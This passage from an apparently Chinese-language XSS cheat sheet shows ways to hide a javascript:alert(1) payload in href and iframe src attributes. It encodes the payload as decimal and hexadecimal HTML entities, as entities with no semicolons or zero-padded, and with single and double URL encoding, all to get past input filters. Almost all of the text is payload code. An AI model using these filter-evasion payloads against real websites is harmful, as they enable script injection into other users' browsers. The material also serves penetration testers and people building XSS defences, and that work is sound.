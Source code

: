 ```
<a href="javascript:alert(1)">test</a>
```

**十进制**

```
<a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">test</a>
```

**十六进制**

```
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">test</a>
```

**可以不带分号**

```
<a href="&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3a&#x61&#x6c&#x65&#x72&#x74&#x28&#x31&#x29">test</a>
```

**可以填充0**

```
<a href="&#x006a&#x0061&#x0076&#x0061&#x0073&#x0063&#x0072&#x0069&#x0070&#x0074&#x003a&#x0061&#x006c&#x0065&#x0072&#x0074&#x0028&#x0031&#x0029">test</a>
```

##### 0x02. url 编码

**当注入点存在 href 或者 src 属性时，可以使用 url 编码。**

```
<a href="可控点">test</a>

<iframe src="可控点">test</iframe>
```

**Payload**

```
<a href="javascript:alert(1)">test</a>

<iframe src="javascript:alert(1)">test</iframe>
```

**注：url 解析过程中，不能对协议类型进行任何的编码操作，所以 javascript: 协议头需要保留。**

```
<a href="javascript:%61%6c%65%72%74%28%31%29">test</a>

<iframe src="javascript:%61%6c%65%72%74%28%31%29">test</iframe>
```

**可以二次编码**

```
<a href="javascript:%2561%256c%2565%2572%2574%2528%2531%2529">test</a>

<iframe src="javascript:%2561%256c%2565%2572%2574%2528%2531%2529">test</iframe>
```
